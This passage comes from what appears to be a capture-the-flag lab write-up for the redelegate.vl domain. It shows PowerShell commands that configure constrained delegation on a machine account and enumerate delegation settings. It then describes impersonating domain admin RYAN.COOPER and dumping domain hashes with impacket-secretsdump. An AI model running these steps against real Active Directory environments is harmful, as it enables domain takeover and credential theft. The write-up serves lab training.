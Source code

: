 ```powershell
Set-ADComputer -Identity FS01 -Add @{'msDS-AllowedToDelegateTo'=@('cifs/dc.redelegate.vl')}

 Set-ADAccountControl -Identity "FS01$" -TrustedToAuthForDelegation $True
```

This can be then verified if the properties are set on the machine account, we can look for computers with constrained delegation configure with 

```powershell
Get-ADComputer -Filter * -Properties msDS-AllowedToDelegateTo | Where-Object { $_.'msDS-AllowedToDelegateTo' -ne $null } | Select-Object Name, msDS-AllowedToDelegateTo
```

<img src="https://i.imgur.com/FmUmxad.png"/>

This can also be done with `impacket-findDelegation`

<img src="https://i.imgur.com/qBZ7UFS.png"/>

Impersonating as administrator didn't work as it had `CannotBeDelegate` set to True

<img src="https://i.imgur.com/7fvDXtQ.png"/>

<img src="https://i.imgur.com/sMzcJzs.png"/>

There's another domain admin, `RYAN.COOPER` which we can impersonate

<img src="https://i.imgur.com/e631TjQ.png"/>

With this ticket can gain remote access through ps/wmi/smb exec or dump hash to logon as domain admin

```bash
impacket-secretsdump redelegate.vl/ryan.cooper@dc.redelegate.vl -k -no-pass
```

<img src="https://i.imgur.com/A64sKXl.png"/>


# References


- https://serverfault.com/questions/18619/on-what-basis-should-you-select-acsii-or-binary-transfers-over-ftp
- https://keramas.github.io/2020/03/22/mssql-ad-enumeration.html
- https://www.guidepointsecurity.com/blog/delegating-like-a-boss-abusing-kerberos-delegation-in-active-directory/
